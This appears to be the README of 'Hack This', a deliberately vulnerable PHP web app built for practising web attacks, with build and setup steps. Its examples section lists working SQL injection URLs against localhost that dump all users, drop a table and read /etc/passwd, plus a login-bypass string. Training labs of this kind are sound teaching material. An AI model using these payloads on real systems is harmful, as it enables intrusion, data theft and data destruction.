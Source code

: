 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Prerequisites
You'll need to have a web server installed and configured with PHP for this to work. I really recommend [XAMPP](https://www.apachefriends.org/), especially for Windows users. Once you've done that you can proceed.

You'll also need [Node.js](https://nodejs.org/en/) and [npm](https://www.npmjs.com/) installed and working.

## Building
Clone the project down and open the folder in your favourite editor. It's a JetBrains PhpStorm project but you can use whichever paid/free software takes your fancy.

First, install the npm packages necessary to build and run the website. Run the following in your terminal in the project root directory:

```
npm install
```

This will install [Bower](https://bower.io/) which will allow you to install the assets the website requires (Bootstrap, jQuery etc.) using the command:

```
bower install
```

Gulp will also have been installed. This will compile the [Less](http://lesscss.org/) and [CoffeeScript](http://coffeescript.org/) into CSS and JS ready for production. Do this using the command:

```
gulp
```

This command will need running again every time you make a change to a Less file. If you're working on them, run `gulp watch` in a terminal to watch for file changes and compile accordingly.

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `db_configuration.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/index.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/index.php?username=leocadio'%20or%20''='`
    - `http://localhost/index.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/index.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
    - Windows: `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('C:\\secrets.txt'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.
